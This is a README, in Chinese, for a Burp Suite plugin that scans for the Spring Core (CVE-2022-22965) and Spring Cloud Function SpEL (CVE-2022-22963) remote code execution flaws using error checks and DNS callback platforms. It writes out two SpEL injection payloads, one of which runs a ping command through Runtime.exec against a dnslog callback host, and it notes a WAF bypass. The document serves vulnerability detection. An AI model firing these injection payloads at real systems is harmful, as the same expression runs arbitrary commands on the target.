



# SpringScan Burp 检测插件

## 支持检测漏洞

- [x] Spring Core RCE (**CVE-2022-22965**)
- [x] Spring Cloud Function SpEL RCE (**CVE-2022-22963**)
- [ ] Spring Cloud GateWay SPEL RCE (**CVE-2022-22947**)

## 回连平台

- [x] Dnglog
- [x] BurpCollaboratorClient
- [x] Ceye
- [ ] 支持自定义回连平台

### CVE-2022-22965 检测方法

利用条件

* JDK9及其以上版本；
* 使⽤了Spring-beans包； 
* 使⽤了Spring参数绑定，参数绑定使⽤的是⾮基本参数类型，如POJO ；

* 使用Tomcat部署，且日志记录功能开启（默认开启）

无损检测，主要通过下面两种方式检测：

* 报错检测
* 回连检测（Dnglos/BurpCollaboratorClient/Ceye）

检测置信度：

> 回连检测 > 报错检测

报错检测误报率较大，可能存在漏洞但不能保证JDK版本大于等于**9**，可以及时捕捉到不出网的漏洞；回连检测准确率高，不适用于不出网环境。

### CVE-2022-22963 检测方法 

利用条件

* 默认路由`/functionRouter`存在SpEL表达式注入

两种检测方法：

* 通过Java自带InetAddres库：`spring.cloud.function.routing-expression:T(java.net.InetAddress).getByName("xxx.dnslog.cn")`回连探测（可绕过WAF拦截命令执行进行漏洞探测）
* 通过执行`ping`命令：`spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("ping xxx.dnslog.cn")`回连探测
* 会扫描当前URI、以及当前URI拼接默认路由`/functionRouter`进行漏洞探测。

## 编译

如需编译其他JDK版本，可参考如下方法编译jar包：

## 截图

加载插件成功

漏洞检测情况

插件设置，默认检测方法全开，回连平台默认Dnslog

target 模块中可以看到漏洞详情

## 免责声明

本工具仅作为安全研究交流，请勿用于非法用途。如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，本人将不承担任何法律及连带责任。
